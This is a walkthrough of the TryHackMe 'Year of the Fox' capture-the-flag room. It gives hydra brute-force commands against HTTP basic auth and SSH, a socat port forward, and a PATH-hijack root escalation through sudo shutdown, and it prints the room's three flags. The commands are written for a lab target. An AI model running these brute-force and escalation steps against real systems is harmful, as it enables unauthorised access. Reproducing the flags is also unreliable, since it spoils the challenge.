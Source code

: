 
# 🦊 TryHackMe: Year of the Fox (Hard)

> A multi-layered CTF challenge combining brute force, Samba enumeration, HTTP basic auth, remote code execution, SSH tunneling, and PATH hijacking for root privilege escalation.

---

## 🎯 Objectives

- Enumerate exposed services
- Brute-force login credentials
- Identify RCE vulnerability in web application
- Use SSH tunneling to pivot access
- Escalate privileges using `sudo` and `PATH` hijack

---

## 🔧 Tools Used

- `nmap`, `enum4linux`, `hydra`, `burp`, `linpeas`
- `socat`, `ssh`, `find`

---

## 🔍 Scanning & Enumeration

Nmap scan:
```bash
nmap -A -sV 10.10.172.81
```

Discovered:
- Port 80 – Apache (with basic auth)
- Port 139/445 – Samba (workgroup: YEAROFTHEFOX)
- Port 7000 – OpenSSH

Ran enum4linux:
```bash
enum4linux -a 10.10.172.81
```

Discovered users:
- `fox`
- `rascal`

---

## 🔐 Brute Force Login (HTTP Basic Auth)

Used `hydra` to brute-force credentials:
```bash
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.172.81 http-head /
```

Logged in as **rascal**.

---

## 💥 Remote Code Execution

After login, encountered a "Search System".

Captured request using Burp Suite.  
Discovered **RCE** in search parameter.  
Gained reverse shell and found **Web Flag**:
```
THM{Nzg2ZWQwYWUwN2UwOTU3NDY5ZjVmYTYw}
```

---

## 🔄 SSH Port Forwarding & Pivot

Discovered local-only SSH on 127.0.0.1:22  
Used socat to forward:
```bash
socat tcp-listen:7000,reuseaddr,fork tcp:127.0.0.1:22
```

Then brute-forced user `fox`:
```bash
hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://10.10.172.81:7000
```

Logged in via SSH and grabbed **User Flag**:
```
THM{Njg3NWZhNDBjMmNlMzNkMGZmMDBhYjhk}
```

---

## 🔼 Privilege Escalation via PATH Hijack

Checked `sudo -l`:
```bash
User fox may run: /sbin/shutdown
```

Identified that `shutdown` runs `poweroff`.

Replaced with custom script:
```bash
echo /bin/bash > poweroff
chmod +x poweroff
export PATH=$(pwd):$PATH
sudo shutdown
```

Gained **root shell** ✅

---

## 🔍 Root Flag Hunt

Initial `root.txt` said:
> Not here -- go find!

Searched using:
```bash
find / -type f -iname '*root*' 2>/dev/null
```

Found and captured final **Root Flag**:
```
THM{ODM3NTdkMDljYmM4ZjdhZWFhY2VjY2Fk}
```

---

## 📚 What I Learned

- Enumerating users via SMB and brute-forcing HTTP/SSH credentials
- Discovering RCE in POST requests
- SSH tunneling with `socat`
- Abusing PATH manipulation to override `poweroff`
- Root flag recon using `find`

---

✅ End of Walkthrough.
